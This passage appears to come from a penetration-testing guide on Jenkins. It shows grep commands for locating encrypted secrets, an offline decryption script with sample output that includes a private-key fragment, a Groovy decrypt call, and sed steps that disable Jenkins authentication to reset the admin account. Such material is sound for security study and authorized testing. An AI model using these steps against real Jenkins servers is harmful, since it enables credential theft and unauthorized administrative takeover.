 ```bash
# Find the secrets
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
# Print only the filenames where the secrets are located
grep -lre "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"

# Secret example
credentials.xml: <secret>{AQAAABAAAAAwsSbQDNcKIRQMjEMYYJeSIxi2d3MHmsfW3d1Y52KMOmZ9tLYyOzTSvNoTXdvHpx/kkEbRZS9OYoqzGsIFXtg7cw==}</secret>
```

#### Decrypt Jenkins secrets offline

If you have dumped the **needed passwords to decrypt the secrets**, use [**this script**](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) **to decrypt those secrets**.

```bash
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret cred.xml
06165DF2-C047-4402-8CAB-1C8EC526C115
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt985Hbb8KfIImS6dZlVG6swiotCiIlg/P7aME9PvZNUgg2Iyf2FT
```

#### Decrypt Jenkins secrets from Groovy

```bash
println(hudson.util.Secret.decrypt("{...}"))
```

### Create new admin user

1. Access the Jenkins config.xml file in `/var/lib/jenkins/config.xml` or `C:\Program Files (x86)\Jenkis\`
2. Search for the word `<useSecurity>true</useSecurity>`and change the word \*\*`true` \*\* to **`false`**.
   1. `sed -i -e 's/<useSecurity>true</<useSecurity>false</g' config.xml`
3. **Restart** the **Jenkins** server: `service jenkins restart`
4. Now go to the Jenkins portal again and **Jenkins will not ask any credentials** this time. You navigate to "**Manage Jenkins**" to set the **administrator password again**.
5. **Enable** the **security** again by changing settings to `<useSecurity>true</useSecurity>` and **restart the Jenkins again**.

## References

- [https://github.com/gquere/pwn_jenkins](https://github.com/gquere/pwn_jenkins)
- [https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/](https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/)
- [https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password](https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password)
- [https://www.lazysystemadmin.com/2018/12/quick-howto-reset-jenkins-admin-password.html](https://www.lazysystemadmin.com/2018/12/quick-howto-reset-jenkins-admin-password.html)
- [https://medium.com/cider-sec/exploiting-jenkins-build-authorization-22bf72926072](https://medium.com/cider-sec/exploiting-jenkins-build-authorization-22bf72926072)
- [https://medium.com/@Proclus/tryhackme-internal-walk-through-90ec901926d3](https://medium.com/@Proclus/tryhackme-internal-walk-through-90ec901926d3)

{{#include ../../banners/hacktricks-training.md}}



